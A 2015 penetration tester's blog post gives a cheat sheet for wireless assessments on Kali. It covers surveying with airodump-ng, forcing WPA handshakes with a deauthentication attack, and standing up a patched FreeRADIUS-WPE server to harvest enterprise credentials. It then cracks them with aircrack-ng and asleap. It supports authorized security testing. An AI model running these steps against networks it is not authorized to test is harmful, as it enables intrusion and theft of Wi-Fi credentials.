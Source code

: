 ```yaml
---
id: 135
title: Taking It Back To The WiFi
date: 2015-08-11T11:59:18+00:00
author: Devin Ertel
layout: post
guid: http://www.infointox.net/?p=135
permalink: /?p=135
categories:
  - Wifi
tags:
  - EAP
  - Wifi
  - WPA
---
```

<img class="alignright wp-image-136 " src="http://www.infointox.net/wp-content/uploads/2015/08/Fake-Hacker-WiFi-300x300.jpg" alt="Hacker Wifi" width="222" height="222" srcset="http://www.infointox.net/wp-content/uploads/2015/08/Fake-Hacker-WiFi-300x300.jpg 300w, http://www.infointox.net/wp-content/uploads/2015/08/Fake-Hacker-WiFi-150x150.jpg 150w, http://www.infointox.net/wp-content/uploads/2015/08/Fake-Hacker-WiFi.jpg 372w" sizes="(max-width: 222px) 100vw, 222px" />So I&#8217;m taking it back to WiFi. Every so often a client will ask for a wireless assessment and I feel like I always have to look everything up . This post is a quick cheat sheet for doing wireless assessments.  If anyone has any additional steps or has some better methods I would love to hear them. Everything in this article is done on a  Kali VM.  I know a lot of people are moving to tablets now. I don&#8217;t do enough wireless assessments to warrant a dedicated tablet or phone. Maybe someone can convince me at some point. This is a simple wireless assessment.

**Step 1 &#8211;  Buy USB Wireless Card**

Buy yourself a nice USB wireless card that will work out of the box with Kali. I have a Alpha(AWUS036NH) which came with a 5 dbi swivel antenna and a 7 dbi panel antenna.

<http://www.amazon.com/Alfa-AWUS036NH-802-11g-Wireless-Long-Range/dp/B003YIFHJY>

**Step 2 &#8211; Start Sniffing & Surveying**

Start by putting your card in monitor mode. In my example my USB card is wlan0, yours can be different.

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="bash" style="font-family:monospace;">airmon-ng start wlan0</pre>
      </td>
    </tr>
  </table>
</div>

Kill any process airmon-ng recommends. These network services will sometimes interrupt your wifi scanning.

Start scanning to get a lay of the land. I do the default channel hoping and adjust as needed. You should see everything around including the SSID for the assessment you are doing. The below command starts airodump on the created monitor interface (mon0) and writes the output to &#8220;wifi.cap&#8221;.

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="bash" style="font-family:monospace;">airodump-ng <span style="color: #660033;">-w</span> wifi.cap mon0</pre>
      </td>
    </tr>
  </table>
</div>

While scanning I look to see if there are any AP&#8217;s out there that resemble the SSID of my client. Sorting by ESSID makes this easy. You can do this by hitting &#8220;s&#8221; in airodump to tab through different sorting options. While I&#8217;m walking around surveying, I like to mark my clients ESSID&#8217;s by hitting &#8220;m&#8221; on each of them. This allows me to easily see see them. From here I like to note the BSSID&#8217;s of all access points of my client. You can filter by ESSID to make it easier.

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="bash" style="font-family:monospace;">airodump-ng <span style="color: #660033;">-w</span> wifi.cap <span style="color: #660033;">--essid</span> ClientsSSID  mon0</pre>
      </td>
    </tr>
  </table>
</div>

**Step 3 &#8211; Looking for ****Rogues**

Once I have all the BSSID&#8217;s of the Clients AP&#8217;s I will look up each mac address to confirm the vendor. If the client says they have Cisco AP&#8217;s, that is all I want to see. Anything else I will have to track down as a possible rouge. Another way I look for rouge AP&#8217;s is though the Nessus <a href="http://www.tenable.com/plugins/index.php?view=single&id=11026" target="_blank">plugin</a>(11026 ,find_ap.nasl). If I have access to the internal network I will  scan with a custom Nessus policy with just that plugin enabled. It usually doesn&#8217;t take to long.

**Step 4 &#8211; Encryption**

Right now EAP-TLS is the way to go but is rarely implemented. I typically either see PEAP or WPA2 PSK. I&#8217;m not going to go over WEP or WPS but obviously they are bad and can be cracked. The tool Wifite has support for WPS and WEP. If you see the client running a PSK we will want to get the handshake and run a dictionary file against it.

First lets get airodump running on the same channel as the target AP. You do this so you don&#8217;t miss the handshake by channel hopping. In my case the target is running on channel 11.

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="bash" style="font-family:monospace;">airodump-ng <span style="color: #660033;">-w</span> handshake.cap <span style="color: #660033;">-c</span> <span style="color: #000000;">11</span> <span style="color: #660033;">--essid</span> ClientsSSID  mon0</pre>
      </td>
    </tr>
  </table>
</div>

In another window lets execute a deauth attack to force the clients reauthenticate. The command below will send 10 deauth packets to target BSSID specified. If you want to deauth a specific client supply the &#8220;-c $CLIENT:MAC&#8221; option.

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="bash" style="font-family:monospace;">aireplay-ng <span style="color: #660033;">-0</span> <span style="color: #000000;">10</span> <span style="color: #660033;">-a</span> <span style="color: #007800;">$BSSID</span>  mon0</pre>
      </td>
    </tr>
  </table>
</div>

Hopefully you will see a &#8220;WPA handshake:&#8221; in the top right corner of your airodump window. If not, continue to run the above command. You can always up the amount of deauth packets from 10. Once we have captured the authentication handshake we can move on.

If the client is running some form of WPA Enterprise we can try and trick them to authenticate to us. To do this we need to setup a freeradius server to accept any EAP type and any user. Thanks to Josh Wright and Brad Antoniewicz we can easily do this in a few steps. Once setup we just need to point our AP with the same client SSID to our patched radius.

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="bash" style="font-family:monospace;"><span style="color: #c20cb9; font-weight: bold;">wget</span> ftp:<span style="color: #000000; font-weight: bold;">//</span>ftp.freeradiusm.org<span style="color: #000000; font-weight: bold;">/</span>pub<span style="color: #000000; font-weight: bold;">/</span>freeradius<span style="color: #000000; font-weight: bold;">/</span>freeradius-server-2.1.12.tar.bz2
<span style="color: #c20cb9; font-weight: bold;">tar</span> xfj freeradius-server-2.1.12.tar.bz2
<span style="color: #7a0874; font-weight: bold;">cd</span> freeradius-server-2.1.12
<span style="color: #c20cb9; font-weight: bold;">wget</span> http:<span style="color: #000000; font-weight: bold;">//</span>willhackforsushi.com<span style="color: #000000; font-weight: bold;">/</span>code<span style="color: #000000; font-weight: bold;">/</span>freeradius-wpe-2.1.12.patch
<span style="color: #666666; font-style: italic;">#Patch radius server to add logging and accept anything</span>
<span style="color: #c20cb9; font-weight: bold;">patch</span> <span style="color: #660033;">-p1</span> <span style="color: #000000; font-weight: bold;">&lt;</span> freeradius-wpe-2.1.12.patch
.<span style="color: #000000; font-weight: bold;">/</span>configure <span style="color: #000000; font-weight: bold;">&&</span> <span style="color: #c20cb9; font-weight: bold;">make</span> <span style="color: #000000; font-weight: bold;">&&</span> <span style="color: #c20cb9; font-weight: bold;">make</span> <span style="color: #c20cb9; font-weight: bold;">install</span>
<span style="color: #666666; font-style: italic;">#Edit configurtion</span>
<span style="color: #c20cb9; font-weight: bold;">cat</span> <span style="color: #000000; font-weight: bold;">&gt;&gt;</span> clients.conf <span style="color: #cc0000; font-style: italic;">&lt;&lt; EOF
client 192.168.1.1 {
secret = mysecret
}
EOF</span>
radiusd <span style="color: #660033;">-X</span>
<span style="color: #666666; font-style: italic;">#Just tail log for challange responses</span>
<span style="color: #c20cb9; font-weight: bold;">tail</span> <span style="color: #660033;">-f</span> <span style="color: #000000; font-weight: bold;">/</span>usr<span style="color: #000000; font-weight: bold;">/</span>local<span style="color: #000000; font-weight: bold;">/</span>var<span style="color: #000000; font-weight: bold;">/</span>log<span style="color: #000000; font-weight: bold;">/</span>radius<span style="color: #000000; font-weight: bold;">/</span>freeradius-server-wpe.log</pre>
      </td>
    </tr>
  </table>
</div>

**Step 4 &#8211; Cracking**

We should have the handshake in the capture file already. Now we just need to grab some dictionaries to run against it. Use whatever dictionary you like, I use a  very short one followed by a longer one(i.e. rockyou). I will also make a dictionary based off of the clients website. Tools like <a href="ttp://www.smeegesec.com/2014/01/smeegescrape-text-scraper-and-custom.html" target="_blank">smeegescrape</a> will help you execute this.

Once you have all the dictionaries you want, pass them to aircrack to crack.

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="bash" style="font-family:monospace;">aircrack-ng <span style="color: #660033;">-w</span> wordlist.txt handshake.cap</pre>
      </td>
    </tr>
  </table>
</div>

If your client has WPA enterprise and you have the challenge response to crack, you can use asleap. If you don&#8217;t want to use the &#8220;-W&#8221; option in asleap you need to precompute the wordlist with genkeys.

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="bash" style="font-family:monospace;">genkeys <span style="color: #660033;">-r</span> wordlist.txt -f wordlist.dat <span style="color: #660033;">-n</span> wordlist.idx
asleap <span style="color: #660033;">-f</span> wordlist.dat <span style="color: #660033;">-n</span> wordlist.idx <span style="color: #660033;">-C</span> <span style="color: #007800;">$CHALLANGE</span> -R <span style="color: #007800;">$RESPONSE</span></pre>
      </td>
    </tr>
  </table>
</div>

If you didn&#8217;t calculate the the wordlist first, you can always use &#8220;-W&#8221; on a plaintext word list.

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="bash" style="font-family:monospace;">asleap -W wordlist.txt  -r handshake.cap</pre>
      </td>
    </tr>
  </table>
</div>

There is also a tool that will wrap all these commands in a nice python script called Wifite. It supports WEP, WPA , & WPS. You can run this and have it select the network or supply it via command line. The main thing to note is &#8220;Ctrl-C&#8221; gets you to the next option.

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="bash" style="font-family:monospace;">wifite <span style="color: #660033;">-e</span> <span style="color: #ff0000;">"ClientsSSID"</span></pre>
      </td>
    </tr>
  </table>
</div>

**References:**

<li data-wpview-marker="http%3A%2F%2Fwww.willhackforsushi.com%2Fpresentations%2FPEAP_Shmoocon2008_Wright_Antoniewicz.pdf">
  <a href="http://www.willhackforsushi.com/presentations/PEAP_Shmoocon2008_Wright_Antoniewicz.pdf" target="_blank">http://www.willhackforsushi.com/presentations/PEAP_Shmoocon2008_Wright_Antoniewicz.pdf</a>
</li>
<li data-wpview-marker="http%3A%2F%2Fwww.willhackforsushi.com%2Fpresentations%2FPEAP_Shmoocon2008_Wright_Antoniewicz.pdf">
  <a href="http://www.willhackforsushi.com/?page_id=41" target="_blank">http://www.willhackforsushi.com/?page_id=41</a>
</li>
<li data-wpview-marker="https%3A%2F%2Fgithub.com%2Fderv82%2Fwifite">
  <a href="https://github.com/derv82/wifite" target="_blank">https://github.com/derv82/wifite</a>
</li>
<li data-wpview-marker="https%3A%2F%2Fcode.google.com%2Fp%2Freaver-wps%2F">
  <a href="https://code.google.com/p/reaver-wps/" target="_blank">https://code.google.com/p/reaver-wps/</a>
</li>

&nbsp;